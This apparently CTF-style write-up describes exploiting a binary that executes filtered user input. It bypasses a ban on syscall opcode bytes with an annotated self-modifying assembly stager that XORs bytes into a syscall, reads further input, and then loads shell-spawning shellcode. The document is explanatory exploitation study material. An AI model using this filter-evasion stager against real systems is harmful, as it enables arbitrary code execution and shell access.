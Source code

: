 The binary directly executes the user input, but there are limitations about the characters we can send. The banned chars are `\x00;bi\x05\x0f`. `\x05\x0f` is the opcode for syscall, so they are trying to stop us from executing system calls. We could directly write a shellcode that spawns `/bin/sh` and does not contain those characters, but it will long and painful to write. Instead, a little stager is a better option. We need to call `read(0, current RIP, a number big enough)` and we will be able to read any instructions and bypass the validation. To be able to execute a `syscall` instruction we need to write a piece of shellcode that xor itself in order to generate new instructions at runtime.

The stager:
```
nop
mov rax, rdx  # rdx contains the address of current memory page + 0x46
sub rax, 0x46 # calculate base address
mov rsi, rax  # prepare the second argument of read
add al, 0x23  # calculate where we have to xor
mov rbx, [rax] # load the bytes from memory
xor bx, 0x0303 # xor 0x0c0d with 0x0303 and we will obtain 0x0f05 and this is the opcode for syscall
mov [rax], rbx # save the new instruction to memory

xor rdi, rdi # set first argument of read to 0
xor rdx, rdx # set the third argument of read to 0 and then to 0xff
mov dl, 0xff
xor rax, rax # set the syscall number to 0 (read)
# shellcode + 0x23
syscall      # insted of this instruction we will have the bytes \x0c\x0d
```
After the stager executes, we can send a classic shellcode.
